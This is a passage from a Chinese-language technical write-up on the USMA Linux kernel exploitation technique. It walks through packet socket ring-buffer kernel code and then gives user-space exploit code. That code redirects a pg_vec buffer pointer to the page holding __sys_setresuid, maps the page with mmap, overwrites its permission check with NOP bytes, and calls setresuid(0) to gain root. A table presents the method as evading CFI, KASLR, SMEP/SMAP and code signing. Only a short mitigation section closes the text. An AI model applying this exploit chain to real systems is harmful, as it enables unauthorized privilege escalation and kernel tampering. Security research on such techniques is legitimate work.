    case PACKET_RX_RING:                                 // 设置接收环形缓冲区
    case PACKET_TX_RING:                                 // 设置发送环形缓冲区
    {
        union tpacket_req_u req_u;                       // 请求参数联合体，支持不同版本
        int len;                                         // 参数长度变量

        lock_sock(sk);                                   // 锁定socket，防止并发访问
        switch (po->tp_version) {                        // 根据TPACKET版本确定参数长度
        case TPACKET_V1:                                 // TPACKET版本1
        case TPACKET_V2:                                 // TPACKET版本2
            len = sizeof(req_u.req);                     // 使用传统req结构
            break;
        case TPACKET_V3:                                 // TPACKET版本3
        default:                                         // 默认版本
            len = sizeof(req_u.req3);                    // 使用扩展的req3结构
            break;
        }
        if (optlen < len) {                              // 检查用户提供的参数长度是否足够
            ret = -EINVAL;                               // 参数长度不足，返回无效参数错误
        } else {
            if (copy_from_sockptr(&req_u.req, optval, len))  // 从用户空间拷贝参数
                ret = -EFAULT;                           // 拷贝失败，返回默认错误
            else
                // 调用packet_set_ring函数设置环形缓冲区
                ret = packet_set_ring(sk, &req_u, 0, optname == PACKET_TX_RING);
        }
        release_sock(sk);                                // 释放socket锁
        return ret;                                      // 返回操作结果
    }
    // 其他选项处理代码省略...
    default:                                             // 未知选项处理
        return -ENOPROTOOPT;                            // 返回协议不支持错误
    }
}
```

**环形缓冲区设置核心函数**：

packet_set_ring函数是设置环形缓冲区的核心，负责分配和管理环形缓冲区内存：

```c
static int packet_set_ring(struct sock *sk, union tpacket_req_u *req_u,
                           int closing, int tx_ring)
{
    struct pgv *pg_vec = NULL;                          // pg_vec数组指针，初始化为NULL
    struct packet_sock *po = pkt_sk(sk);                // 获取packet_sock结构
    unsigned long *rx_owner_map = NULL;                 // 接收者映射位图指针
    int was_running, order = 0;                         // 运行状态和分配阶数
    struct packet_ring_buffer *rb;                      // 环形缓冲区指针
    struct sk_buff_head *rb_queue;                      // 缓冲区队列指针
    __be16 num;                                         // 原始设备号
    int err;                                            // 错误码变量
    struct tpacket_req *req = &req_u->req;              // 获取请求参数（简化处理）

    // 选择接收或发送环形缓冲区
    rb = tx_ring ? &po->tx_ring : &po->rx_ring;         // 根据方向选择环形缓冲区
    rb_queue = tx_ring ? &sk->sk_write_queue : &sk->sk_receive_queue;  // 选择对应队列

    err = -EBUSY;                                       // 设置默认错误码为设备忙
    if (!closing) {                                     // 如果不是关闭操作
        if (atomic_read(&po->mapped))                   // 检查是否已有内存映射
            goto out;                                   // 已有映射，跳转到结束
        if (packet_read_pending(rb))                    // 检查是否有未处理数据
            goto out;                                   // 有待处理数据，跳转到结束
    }

    if (req->tp_block_nr) {                             // 如果请求的块数量大于0
        unsigned int min_frame_size;                    // 最小帧大小变量

        // 参数验证：确保缓冲区尚未分配
        err = -EBUSY;
        if (unlikely(rb->pg_vec))                       // 检查pg_vec是否已分配
            goto out;                                   // 已分配，返回设备忙错误

        // 根据TPACKET版本设置头部长度
        switch (po->tp_version) {
        case TPACKET_V1:                                // TPACKET版本1
            po->tp_hdrlen = TPACKET_HDRLEN;             // 设置头部长度为V1版本
            break;
        case TPACKET_V2:                                // TPACKET版本2
            po->tp_hdrlen = TPACKET2_HDRLEN;            // 设置头部长度为V2版本
            break;
        case TPACKET_V3:                                // TPACKET版本3
            po->tp_hdrlen = TPACKET3_HDRLEN;            // 设置头部长度为V3版本
            break;
        }

        // 参数验证：基本参数检查
        err = -EINVAL;                                  // 设置错误码为无效参数
        if (unlikely((int)req->tp_block_size <= 0))     // 检查块大小是否有效
            goto out;                                   // 无效块大小，返回错误
        if (unlikely(!PAGE_ALIGNED(req->tp_block_size))) // 检查块大小是否页面对齐
            goto out;                                   // 未对齐，返回错误

        // 计算最小帧大小并验证帧大小参数
        min_frame_size = po->tp_hdrlen + po->tp_reserve; // 计算最小帧大小
        if (unlikely(req->tp_frame_size < min_frame_size)) // 检查帧大小是否足够
            goto out;                                   // 帧大小太小，返回错误
        if (unlikely(req->tp_frame_size & (TPACKET_ALIGNMENT - 1))) // 检查帧大小对齐
            goto out;                                   // 未对齐，返回错误

        // 计算帧相关参数
        rb->frames_per_block = req->tp_block_size / req->tp_frame_size; // 计算每块帧数
        if (unlikely(rb->frames_per_block == 0))        // 检查每块帧数是否有效
            goto out;                                   // 无效帧数，返回错误
        if (unlikely(rb->frames_per_block > UINT_MAX / req->tp_block_nr)) // 检查溢出
            goto out;                                   // 可能溢出，返回错误
        if (unlikely((rb->frames_per_block * req->tp_block_nr) != req->tp_frame_nr))
            goto out;                                   // 帧数不匹配，返回错误

        // 分配内存
        err = -ENOMEM;                                  // 设置错误码为内存不足
        order = get_order(req->tp_block_size);          // 计算页面分配阶数
        pg_vec = alloc_pg_vec(req, order);              // 分配pg_vec数组和页面
        if (unlikely(!pg_vec))                          // 检查分配是否成功
            goto out;                                   // 分配失败，跳转到结束

        // 版本特定处理
        switch (po->tp_version) {
        case TPACKET_V3:                                // TPACKET版本3处理
            if (!tx_ring) {                             // 接收环形缓冲区
                init_prb_bdqc(po, rb, pg_vec, req_u);   // 初始化PRB块描述符队列控制
            } else {                                    // 发送环形缓冲区
                struct tpacket_req3 *req3 = &req_u->req3; // 获取V3请求参数
                // V3发送环形缓冲区不支持某些特性
                if (req3->tp_retire_blk_tov || req3->tp_sizeof_priv || req3->tp_feature_req_word) {
                    err = -EINVAL;                      // 不支持的特性，返回无效参数
                    goto out_free_pg_vec;               // 跳转到清理
                }
            }
            break;
        default:                                        // V1/V2版本处理
            if (!tx_ring) {                             // 接收环形缓冲区
                // 分配接收者映射位图
                rx_owner_map = bitmap_alloc(req->tp_frame_nr, GFP_KERNEL | __GFP_NOWARN | __GFP_ZERO);
                if (!rx_owner_map)                      // 检查分配是否成功
                    goto out_free_pg_vec;               // 分配失败，跳转到清理
            }
            break;
        }
    } else {                                            // 请求块数为0的情况
        err = -EINVAL;                                  // 设置错误码为无效参数
        if (unlikely(req->tp_frame_nr))                 // 检查是否有帧请求
            goto out;                                   // 有帧请求但无块，返回错误
    }

    // 分离socket与网络
    spin_lock(&po->bind_lock);                          // 获取绑定锁
    was_running = packet_sock_flag(po, PACKET_SOCK_RUNNING); // 检查是否正在运行
    num = po->num;                                      // 保存当前设备号
    if (was_running) {                                  // 如果正在运行
        WRITE_ONCE(po->num, 0);                         // 清空设备号
        __unregister_prot_hook(sk, false);              // 注销协议钩子
    }
    spin_unlock(&po->bind_lock);                        // 释放绑定锁

    synchronize_net();                                  // 同步网络操作，确保无并发

    // 交换缓冲区
    err = -EBUSY;                                       // 设置错误码为设备忙
    mutex_lock(&po->pg_vec_lock);                       // 获取pg_vec锁
    if (closing || atomic_read(&po->mapped) == 0) {     // 检查是否可以交换
        err = 0;                                        // 可以交换，设置成功
        spin_lock_bh(&rb_queue->lock);                  // 获取队列锁
        swap(rb->pg_vec, pg_vec);                       // 交换pg_vec数组
        if (po->tp_version <= TPACKET_V2)               // V1/V2版本
            swap(rb->rx_owner_map, rx_owner_map);       // 交换接收者映射
        rb->frame_max = (req->tp_frame_nr - 1);         // 设置最大帧索引
        rb->head = 0;                                   // 重置头部指针
        rb->frame_size = req->tp_frame_size;            // 设置帧大小
        spin_unlock_bh(&rb_queue->lock);                // 释放队列锁

        // 更新缓冲区参数
        swap(rb->pg_vec_order, order);                  // 交换分配阶数
        swap(rb->pg_vec_len, req->tp_block_nr);         // 交换数组长度
        rb->pg_vec_pages = req->tp_block_size / PAGE_SIZE; // 计算每块页面数

        // 更新接收函数
        po->prot_hook.func = (po->rx_ring.pg_vec) ? tpacket_rcv : packet_rcv;

        skb_queue_purge(rb_queue);                      // 清空队列

        if (atomic_read(&po->mapped))                   // 检查是否已有映射
            pr_err("packet_mmap: vma is busy: %d\n", atomic_read(&po->mapped));
    }
    mutex_unlock(&po->pg_vec_lock);                     // 释放pg_vec锁

    // 重新注册协议钩子
    spin_lock(&po->bind_lock);                          // 获取绑定锁
    if (was_running) {                                  // 如果之前正在运行
        WRITE_ONCE(po->num, num);                       // 恢复设备号
        register_prot_hook(sk);                         // 注册协议钩子
    }
    spin_unlock(&po->bind_lock);                        // 释放绑定锁

    // V3版本特定清理
    if (pg_vec && (po->tp_version > TPACKET_V2)) {      // V3版本
        if (!tx_ring)                                   // 接收环形缓冲区
            prb_shutdown_retire_blk_timer(po, rb_queue); // 关闭定时器
    }

out_free_pg_vec:                                        // 清理标签
    if (pg_vec) {                                       // 如果有分配的pg_vec
        bitmap_free(rx_owner_map);                      // 释放接收者映射
        free_pg_vec(pg_vec, order, req->tp_block_nr);   // 释放pg_vec数组
    }
out:                                                    // 退出标签
    return err;                                         // 返回错误码
}
```

**关键数据结构定义**：

```c
// pgv结构体，表示单个内存块
struct pgv {
    char *buffer;                                      // 指向数据缓冲区的指针，USMA技术的关键控制点
};

// packet环形缓冲区结构体
struct packet_ring_buffer {
    struct pgv *pg_vec;                                // pgv数组指针，包含所有内存块的描述符
    unsigned int head;                                 // 环形缓冲区头部索引，指示下一个可读/写位置
    unsigned int frames_per_block;                     // 每个内存块包含的帧数
    unsigned int frame_size;                           // 单个帧的大小（字节）
    unsigned int frame_max;                            // 最大帧索引，等于总帧数减1
    unsigned int pg_vec_order;                         // 页面分配阶数，决定每个buffer的大小（2^order页）
    unsigned int pg_vec_pages;                         // 每个buffer包含的页面数
    unsigned int pg_vec_len;                           // pg_vec数组的长度，等于内存块数量
    unsigned int __percpu *pending_refcnt;             // 每个CPU的挂起引用计数，用于同步
    union {                                            // 版本特定数据联合体
        unsigned long *rx_owner_map;                   // V1/V2版本：接收者映射位图
        struct tpacket_kbdq_core prb_bdqc;            // V3版本：块描述符队列核心结构
    };
};
```

**内存分配函数实现**：

alloc_pg_vec函数负责分配pg_vec数组和每个内存块的buffer：

```c
static struct pgv *alloc_pg_vec(struct tpacket_req *req, int order)
{
    unsigned int block_nr = req->tp_block_nr;           // 获取请求的内存块数量
    struct pgv *pg_vec;                                 // pg_vec数组指针
    int i;                                              // 循环索引

    // 分配pg_vec数组内存
    pg_vec = kcalloc(block_nr, sizeof(struct pgv), GFP_KERNEL | __GFP_NOWARN);
    if (unlikely(!pg_vec))                              // 检查分配是否成功
        goto out;                                       // 分配失败，跳转到返回

    // 为每个pg_vec元素分配物理页面
    for (i = 0; i < block_nr; i++) {
        pg_vec[i].buffer = alloc_one_pg_vec_page(order); // 分配单个内存块
        if (unlikely(!pg_vec[i].buffer))               // 检查页面分配是否成功
            goto out_free_pgvec;                       // 分配失败，跳转到清理
    }

out:                                                    // 返回标签
    return pg_vec;                                      // 返回分配的pg_vec数组

out_free_pgvec:                                         // 清理标签
    free_pg_vec(pg_vec, order, block_nr);               // 释放已分配的pg_vec
    pg_vec = NULL;                                      // 将指针设为NULL
    goto out;                                           // 跳转到返回
}
```

**内存释放函数**：

```c
static void free_pg_vec(struct pgv *pg_vec, unsigned int order, unsigned int len)
{
    int i;                                              // 循环索引

    for (i = 0; i < len; i++) {                         // 遍历每个内存块
        if (likely(pg_vec[i].buffer)) {                 // 检查buffer是否有效
            if (is_vmalloc_addr(pg_vec[i].buffer))      // 检查是否为vmalloc分配
                vfree(pg_vec[i].buffer);                // 释放vmalloc内存
            else
                free_pages((unsigned long)pg_vec[i].buffer, order); // 释放物理页面
            pg_vec[i].buffer = NULL;                    // 清空指针
        }
    }
    kfree(pg_vec);                                      // 释放pg_vec数组
}
```

#### 3-3-3. 内存映射机制实现

**packet_mmap函数分析**：

当用户空间调用mmap映射packet socket时，内核执行packet_mmap函数，这是USMA技术的核心：

```c
static int packet_mmap(struct file *file, struct socket *sock,
                       struct vm_area_struct *vma)
{
    struct sock *sk = sock->sk;                         // 获取socket对应的sock结构
    struct packet_sock *po = pkt_sk(sk);                // 转换为packet_sock结构
    unsigned long size, expected_size;                  // 映射大小变量
    struct packet_ring_buffer *rb;                      // 环形缓冲区指针
    unsigned long start;                                // 映射起始地址
    int err = -EINVAL;                                  // 错误码，初始为无效参数
    int i;                                              // 循环索引

    if (vma->vm_pgoff)                                  // 检查映射偏移，必须为0
        return -EINVAL;                                 // 偏移非0，返回无效参数

    mutex_lock(&po->pg_vec_lock);                       // 获取pg_vec锁，防止并发修改

    expected_size = 0;                                  // 初始化预期大小
    // 计算接收和发送环形缓冲区的总大小
    for (rb = &po->rx_ring; rb <= &po->tx_ring; rb++) { // 遍历接收和发送环形缓冲区
        if (rb->pg_vec) {                               // 如果缓冲区已分配
            expected_size += rb->pg_vec_len             // 数组长度
                          * rb->pg_vec_pages            // 每块页面数
                          * PAGE_SIZE;                  // 页面大小
        }
    }

    if (expected_size == 0)                             // 检查是否已分配缓冲区
        goto out;                                       // 未分配，跳转到结束

    size = vma->vm_end - vma->vm_start;                 // 计算请求的映射大小
    if (size != expected_size)                          // 验证大小是否匹配
        goto out;                                       // 大小不匹配，跳转到结束

    start = vma->vm_start;                              // 获取用户空间映射起始地址
    // 遍历接收和发送环形缓冲区
    for (rb = &po->rx_ring; rb <= &po->tx_ring; rb++) { // 遍历接收和发送环形缓冲区
        if (rb->pg_vec == NULL)                         // 检查缓冲区是否已分配
            continue;                                   // 未分配，跳过当前缓冲区

        // 遍历pg_vec数组中的每个元素
        for (i = 0; i < rb->pg_vec_len; i++) {          // 遍历每个内存块
            struct page *page;                          // 页面结构指针
            void *kaddr = rb->pg_vec[i].buffer;         // 获取buffer指针
            int pg_num;                                 // 页面索引

            // 将buffer指向的每个页面映射到用户空间
            for (pg_num = 0; pg_num < rb->pg_vec_pages; pg_num++) { // 遍历每个页面
                page = pgv_to_page(kaddr);              // 虚拟地址转物理页面
                err = vm_insert_page(vma, start, page); // 插入页面到用户空间
                if (unlikely(err))                      // 检查插入是否成功
                    goto out;                           // 失败，跳转到结束
                start += PAGE_SIZE;                     // 更新映射地址
                kaddr += PAGE_SIZE;                     // 更新内核地址
            }
        }
    }

    atomic_inc(&po->mapped);                            // 增加映射计数
    vma->vm_ops = &packet_mmap_ops;                     // 设置VMA操作结构
    err = 0;                                            // 设置成功返回码

out:                                                    // 退出标签
    mutex_unlock(&po->pg_vec_lock);                     // 释放pg_vec锁
    return err;                                         // 返回操作结果
}
```

**页面映射核心函数**：

vm_insert_page函数负责将物理页面插入到用户空间的虚拟地址区域：

```c
int vm_insert_page(struct vm_area_struct *vma, unsigned long addr, struct page *page)
{
    if (addr < vma->vm_start || addr >= vma->vm_end)    // 检查地址是否在VMA范围内
        return -EFAULT;                                 // 地址无效，返回错误
    if (!page_count(page))                              // 检查页面引用计数
        return -EINVAL;                                 // 页面无效，返回错误
    if (!(vma->vm_flags & VM_MIXEDMAP)) {               // 检查VMA是否允许混合映射
        BUG_ON(mmap_read_trylock(vma->vm_mm));          // 确保已持有mmap锁
        BUG_ON(vma->vm_flags & VM_PFNMAP);              // 确保不是PFN映射
        vm_flags_set(vma, VM_MIXEDMAP);                 // 设置混合映射标志
    }
    return insert_page(vma, addr, page, vma->vm_page_prot); // 调用底层插入函数
}
EXPORT_SYMBOL(vm_insert_page);

static int insert_page(struct vm_area_struct *vma, unsigned long addr,
                       struct page *page, pgprot_t prot)
{
    int retval;                                         // 返回值
    pte_t *pte;                                         // 页表项指针
    spinlock_t *ptl;                                    // 页表锁指针

    retval = validate_page_before_insert(page);         // 验证页面有效性
    if (retval)                                         // 检查验证结果
        goto out;                                       // 验证失败，跳转到结束
    retval = -ENOMEM;                                   // 设置错误码为内存不足
    pte = get_locked_pte(vma->vm_mm, addr, &ptl);       // 获取页表项和锁
    if (!pte)                                           // 检查页表项是否有效
        goto out;                                       // 无效，跳转到结束
    retval = insert_page_into_pte_locked(vma, pte, addr, page, prot); // 插入页面
    pte_unmap_unlock(pte, ptl);                         // 释放页表项和锁
out:                                                    // 退出标签
    return retval;                                      // 返回结果
}
```

**页面验证函数**：

validate_page_before_insert函数验证页面是否适合映射到用户空间：

```c
static int validate_page_before_insert(struct page *page)
{
    if (PageAnon(page) || PageSlab(page) || page_has_type(page)) // 检查页面类型
        return -EINVAL;                                 // 匿名页、Slab页或特殊类型页不允许
    flush_dcache_page(page);                            // 刷新数据缓存确保一致性
    return 0;                                           // 验证通过
}
```

**页面插入函数**：

insert_page_into_pte_locked函数将页面插入到锁定的页表项中：

```c
static int insert_page_into_pte_locked(struct vm_area_struct *vma, pte_t *pte,
                                       unsigned long addr, struct page *page, pgprot_t prot)
{
    if (!pte_none(ptep_get(pte)))                       // 检查页表项是否已占用
        return -EBUSY;                                  // 已占用，返回设备忙错误
    // 成功，插入页面
    get_page(page);                                     // 增加页面引用计数
    inc_mm_counter(vma->vm_mm, mm_counter_file(page));  // 增加内存计数器
    page_add_file_rmap(page, vma, false);               // 添加反向映射
    set_pte_at(vma->vm_mm, addr, pte, mk_pte(page, prot)); // 设置页表项
    return 0;                                           // 返回成功
}
```

### 3-4. USMA技术实现步骤

#### 3-4-1. 阶段一：环境初始化与缓冲区设置

**用户空间初始化代码**：

```c
// 创建packet socket描述符
int packet_fd = socket(AF_PACKET, SOCK_RAW, htons(ETH_P_ALL)); // 创建原始包socket
if (packet_fd < 0) {                                   // 检查socket创建是否成功
    perror("创建packet socket失败");                    // 输出错误信息
    return -1;                                         // 返回错误代码
}

// 配置环形缓冲区参数
struct tpacket_req req = {                             // 环形缓冲区请求结构
    .tp_block_size = 4096,                             // 设置块大小为4KB（一页）
    .tp_block_nr = 1,                                  // 设置块数量为1
    .tp_frame_size = 4096,                             // 设置帧大小为4KB
    .tp_frame_nr = 1                                   // 设置帧数量为1
};

// 设置接收环形缓冲区
int ret = setsockopt(packet_fd, SOL_PACKET, PACKET_RX_RING, &req, sizeof(req));
if (ret < 0) {                                         // 检查设置是否成功
    perror("设置环形缓冲区失败");                         // 输出错误信息
    close(packet_fd);                                  // 关闭socket
    return -1;                                         // 返回错误代码
}
```

**内核内存分配流程**：


```mermaid
sequenceDiagram
    participant 用户空间
    participant 内核空间
    participant 内存管理

    用户空间->>内核空间: setsockopt(PACKET_RX_RING, req)
    内核空间->>内核空间: packet_setsockopt()
    内核空间->>内核空间: packet_set_ring()
    内核空间->>内存管理: alloc_pg_vec(req, order)

    内存管理->>内存管理: kcalloc(block_nr, sizeof(struct pgv))
    内存管理-->>内核空间: 返回pg_vec数组

    loop 对每个内存块
        内核空间->>内存管理: alloc_one_pg_vec_page(order)
        内存管理-->>内核空间: 返回buffer地址
        内核空间->>内核空间: pg_vec[i].buffer = buffer
    end

    内核空间-->>用户空间: 返回成功
```

#### 3-4-2. 阶段二：指针控制与重定向

**内存操作场景**：

通过内存操作场景，可以控制已分配的pg_vec数组中的buffer指针：

```c
// 假设可以控制pg_vec数组的内存内容
struct pgv *pg_vec = /* 通过操作获取的pg_vec指针 */;

// 计算目标内核函数页面地址
unsigned long target_func_addr = (unsigned long)&__sys_setresuid; // 获取目标函数地址
unsigned long target_page_addr = target_func_addr & ~(PAGE_SIZE - 1); // 计算页面对齐地址

// 关键步骤：重定向buffer指针指向目标内核页面
pg_vec[0].buffer = (char *)target_page_addr;           // 修改buffer指针
```

**目标函数分析**：

以\_\_sys_setresuid函数为例，该函数包含权限检查逻辑：

```c
long __sys_setresuid(uid_t ruid, uid_t euid, uid_t suid)
{
    struct user_namespace *ns = current_user_ns();      // 获取当前用户命名空间
    const struct cred *old;                             // 旧凭证指针
    struct cred *new;                                   // 新凭证指针
    int retval;                                         // 返回值
    kuid_t kruid, keuid, ksuid;                         // 内核UID表示
    bool ruid_new, euid_new, suid_new;                  // UID变化标志

    // 关键点1: 用户空间UID转换为内核UID
    kruid = make_kuid(ns, ruid);                        // 转换真实UID
    keuid = make_kuid(ns, euid);                        // 转换有效UID
    ksuid = make_kuid(ns, suid);                        // 转换保存的UID

    // 参数有效性验证
    if ((ruid != (uid_t) -1) && !uid_valid(kruid))      // 验证真实UID
        return -EINVAL;                                 // 无效，返回错误
    if ((euid != (uid_t) -1) && !uid_valid(keuid))      // 验证有效UID
        return -EINVAL;                                 // 无效，返回错误
    if ((suid != (uid_t) -1) && !uid_valid(ksuid))      // 验证保存的UID
        return -EINVAL;                                 // 无效，返回错误

    old = current_cred();                               // 获取当前进程凭证

    // 检查是否无需更改UID（无操作检查）
    if ((ruid == (uid_t) -1 || uid_eq(kruid, old->uid)) &&
        (euid == (uid_t) -1 || (uid_eq(keuid, old->euid) &&
                                uid_eq(keuid, old->fsuid))) &&
        (suid == (uid_t) -1 || uid_eq(ksuid, old->suid)))
        return 0;                                       // 无需更改，直接返回

    // 检查UID是否发生了变化
    ruid_new = ruid != (uid_t) -1        && !uid_eq(kruid, old->uid) &&
               !uid_eq(kruid, old->euid) && !uid_eq(kruid, old->suid);
    euid_new = euid != (uid_t) -1        && !uid_eq(keuid, old->uid) &&
               !uid_eq(keuid, old->euid) && !uid_eq(keuid, old->suid);
    suid_new = suid != (uid_t) -1        && !uid_eq(ksuid, old->uid) &&
               !uid_eq(ksuid, old->euid) && !uid_eq(ksuid, old->suid);

    // 关键点2: 权限检查逻辑
    if ((ruid_new || euid_new || suid_new) &&           // 如果有UID变化
        !ns_capable_setid(old->user_ns, CAP_SETUID))    // 且没有CAP_SETUID能力
        return -EPERM;                                  // 返回权限错误

    // 准备新的凭证结构
    new = prepare_creds();                              // 准备新凭证
    if (!new)                                           // 检查分配是否成功
        return -ENOMEM;                                 // 内存不足，返回错误

    // 设置新的UID
    if (ruid != (uid_t) -1) {                           // 设置真实UID
        new->uid = kruid;                               // 设置新真实UID
        if (!uid_eq(kruid, old->uid)) {                 // 检查真实UID是否变化
            retval = set_user(new);                     // 更新用户信息
            if (retval < 0)                             // 检查是否成功
                goto error;                             // 失败，跳转到错误处理
        }
    }
    if (euid != (uid_t) -1)                             // 设置有效UID
        new->euid = keuid;                              // 设置新有效UID
    if (suid != (uid_t) -1)                             // 设置保存的UID
        new->suid = ksuid;                              // 设置新保存的UID
    new->fsuid = new->euid;                             // 设置文件系统UID

    // 安全模块回调
    retval = security_task_fix_setuid(new, old, LSM_SETID_RES); // 调用安全模块
    if (retval < 0)                                     // 检查安全模块结果
        goto error;                                     // 失败，跳转到错误处理

    // 设置用户计数
    retval = set_cred_ucounts(new);                     // 更新用户计数
    if (retval < 0)                                     // 检查是否成功
        goto error;                                     // 失败，跳转到错误处理

    // 检查进程数限制
    flag_nproc_exceeded(new);                           // 检查进程数是否超限
    return commit_creds(new);                           // 提交新凭证，返回成功

error:                                                  // 错误处理标签
    abort_creds(new);                                   // 中止凭证更改
    return retval;                                      // 返回错误代码
}
```

**函数执行流程**：


```mermaid
flowchart TD
    A[__sys_setresuid入口] --> B[参数验证]
    B --> C[UID转换: make_kuid]
    C --> D[获取当前凭证]
    D --> E[检查UID变化]
    E --> F{权限检查: ns_capable_setid}
    F -- 通过 --> G[创建新凭证]
    F -- 失败 --> H[返回-EPERM]
    G --> I[设置新UID]
    I --> J[安全模块检查]
    J --> K[提交凭证]
    K --> L[返回成功]
    H --> M[结束]

    subgraph 关键修改点
        C1[make_kuid调用点<br/>UID有效性检查]
        F1[ns_capable_setid检查<br/>权限验证逻辑]
    end

    C -.-> C1
    F -.-> F1
```

#### 3-4-3. 阶段三：内存映射建立

**用户空间映射代码**：

```c
// 计算映射区域大小
size_t map_size = req.tp_block_size * req.tp_block_nr;  // 映射总大小，通常为4096字节

// 建立用户空间内存映射
void *mapped_addr = mmap(NULL,                          // 映射起始地址，NULL表示由系统选择
                         map_size,                      // 映射区域大小
                         PROT_READ | PROT_WRITE,        // 映射区域权限：可读可写
                         MAP_SHARED | MAP_LOCKED,       // 映射标志：共享映射，锁定在内存
                         packet_fd,                     // packet socket文件描述符
                         0);                            // 文件偏移量，必须为0

if (mapped_addr == MAP_FAILED) {                        // 检查映射是否成功
    perror("mmap操作失败");                              // 输出错误信息
    close(packet_fd);                                   // 关闭socket
    return -1;                                          // 返回错误代码
}

printf("成功映射内核内存到用户空间: %p\n", mapped_addr);  // 输出映射地址
```

**内核映射执行流程**：


```mermaid
sequenceDiagram
    participant 用户进程
    participant 系统调用
    participant VFS层
    participant Socket层
    participant Packet模块
    participant 内存管理

    用户进程->>系统调用: mmap(packet_fd, ...)
    系统调用->>VFS层: 调用文件操作mmap
    VFS层->>Socket层: sock_mmap(file, vma)
    Socket层->>Packet模块: packet_mmap(file, vma)

    Packet模块->>Packet模块: 验证映射参数
    Packet模块->>Packet模块: 遍历pg_vec数组

    loop 对每个pg_vec元素
        Packet模块->>Packet模块: 获取buffer指针
        Packet模块->>内存管理: pgv_to_page(buffer)
        内存管理-->>Packet模块: 返回物理页面
        Packet模块->>内存管理: vm_insert_page(vma, addr, page)
        内存管理-->>Packet模块: 映射建立成功
    end

    Packet模块-->>Socket层: 返回成功
    Socket层-->>VFS层: 返回成功
    VFS层-->>系统调用: 返回映射地址
    系统调用-->>用户进程: 返回用户空间地址
```

#### 3-4-4. 阶段四：内存访问与修改

**内核代码修改示例**：

```c
// 计算目标函数在页面内的偏移
unsigned long target_func_addr = (unsigned long)&__sys_setresuid; // 目标函数地址
unsigned long target_page_addr = target_func_addr & ~(PAGE_SIZE - 1); // 页面对齐地址
unsigned long func_offset = target_func_addr - target_page_addr; // 计算页面内偏移

// 定位到目标内存位置
uint8_t *target_memory = (uint8_t *)mapped_addr + func_offset; // 目标内存地址

// 读取并分析原始指令
size_t read_size = 64;                                  // 读取64字节进行分析
uint8_t original_code[64];                              // 保存原始指令
for (size_t i = 0; i < read_size; i++) {                // 遍历读取
    original_code[i] = target_memory[i];                // 读取当前字节
    printf("%02x ", original_code[i]);                  // 输出十六进制
    if ((i + 1) % 16 == 0) printf("\n");                // 每16字节换行
}

// 分析关键指令位置（通过反汇编确定）
unsigned long patch_offset = 0x20;                      // 补丁偏移位置
uint8_t patch_bytes[] = {0x90, 0x90, 0x90, 0x90, 0x90}; // 5个NOP指令（x86架构）

// 保存原始字节以便恢复
uint8_t saved_bytes[sizeof(patch_bytes)];               // 保存原始指令
for (size_t i = 0; i < sizeof(patch_bytes); i++) {      // 遍历保存
    saved_bytes[i] = target_memory[patch_offset + i];   // 保存原始字节
}

// 应用补丁
for (size_t i = 0; i < sizeof(patch_bytes); i++) {      // 遍历修改
    target_memory[patch_offset + i] = patch_bytes[i];   // 写入NOP指令
}
```

**功能验证代码**：

```c
// 功能验证示例
void verify_operation(void)
{
    uid_t original_uid = getuid();                       // 获取原始用户ID
    uid_t original_euid = geteuid();                     // 获取原始有效用户ID
    uid_t test_uid = 0;                                  // 测试用户ID

    printf("原始用户ID: %d, 原始有效用户ID: %d\n", original_uid, original_euid);

    // 测试setresuid系统调用
    if (setresuid(test_uid, test_uid, test_uid) == 0) {  // 尝试设置用户ID
        printf("setresuid操作成功！\n");                  // 输出成功信息
        printf("当前用户ID: %d, 当前有效用户ID: %d\n", getuid(), geteuid());

        // 验证权限
        if (geteuid() == 0) {                            // 检查权限
            printf("权限验证成功！\n");                  // 输出成功信息

            // 执行系统操作
            if (system("id") == 0) {                     // 执行id命令
                printf("系统命令执行成功\n");             // 输出成功信息
            }

            // 恢复原始UID
            if (setresuid(original_uid, original_uid, original_uid) == 0) {
                printf("已恢复原始用户ID\n");             // 输出恢复信息
            }
        }
    } else {                                            // 操作失败
        printf("操作未能完成: %s\n", strerror(errno));   // 显示错误信息
    }
}

// 恢复原始代码
void restore_original_code(uint8_t *target_memory, unsigned long patch_offset,
                          uint8_t *saved_bytes, size_t patch_size)
{
    for (size_t i = 0; i < patch_size; i++) {           // 遍历恢复
        target_memory[patch_offset + i] = saved_bytes[i]; // 恢复原始字节
    }

    printf("已恢复原始内核代码\n");                       // 输出恢复信息
}
```

### 3-5. 技术对比与分析

#### 3-5-1. 与传统技术对比

| 技术维度       | 传统控制流技术                              | USMA技术                                   |
| -------------- | ------------------------------------------- | ------------------------------------------ |
| **实现原理**   | 基于控制流，修改函数指针或返回地址          | 直接内存访问，修改内核代码指令             |
| **实现复杂度** | 高：需构造复杂控制流链，考虑栈布局、ROP链等 | 中：直接访问目标内存，无需复杂控制流构造   |
| **可靠性**     | 中等：依赖特定代码片段，受KASLR影响         | 高：直接访问目标内存，不受KASLR影响        |
| **检测规避**   | 有限：受CFI机制限制，异常控制流易被检测     | 有效：通过合法路径访问，CFI检查正常通过    |
| **所需条件**   | 需信息获取地址，需控制流操作原语            | 需内存操作控制指针，需内核函数地址         |
| **系统影响**   | 较易检测：异常控制流、栈破坏等特征明显      | 较难检测：合法系统调用路径，仅内存内容变化 |
| **通用性**     | 依赖特定模式和内存布局                      | 基于标准内核接口，通用性较好               |
| **权限需求**   | 通常需要内核执行权限                        | 需要内核内存访问权限                       |

#### 3-5-2. 安全机制分析

**控制流完整性（CFI）机制**：


```mermaid
mindmap
  root(CFI机制与USMA)
    CFI基本原理
      间接跳转验证
      有效目标地址集合
      静态分析与运行时检查
    传统技术检测
      控制流操作
      目标地址不在有效集合
      CFI检查失败
    USMA机制
      不改变控制流
      所有跳转目标不变
      直接修改函数逻辑
      CFI检查正常通过
    检测挑战
      内存完整性检查需求
      控制流监控失效
      需要代码签名验证
```

**其他安全机制影响**：

1. **KASLR（内核地址空间布局随机化）**：
    - 传统技术：需要信息获取内核地址
    - USMA：同样需要目标函数地址，但通过系统信息可获取

2. **SMEP/SMAP（管理模式执行/访问保护）**：
    - 传统技术：需要绕过用户空间代码执行限制
    - USMA：通过合法映射访问内核内存，不涉及直接用户空间执行

3. **KPTI（内核页表隔离）**：
    - 传统技术：用户空间无法访问内核页表
    - USMA：通过映射机制间接访问内核内存

4. **代码签名与完整性**：
    - 传统技术：可能被代码签名机制阻止
    - USMA：修改运行时代码，绕过静态签名检查

#### 3-5-3. 防护建议与缓解措施

1. **内存完整性保护**：
    - 实施内核代码段写保护，防止代码被修改
    - 使用硬件支持的内存保护机制
    - 定期校验关键内核函数的完整性

2. **指针完整性检查**：
    - 对关键数据结构指针进行完整性验证
    - 实施指针验证机制
    - 使用安全的内存分配器
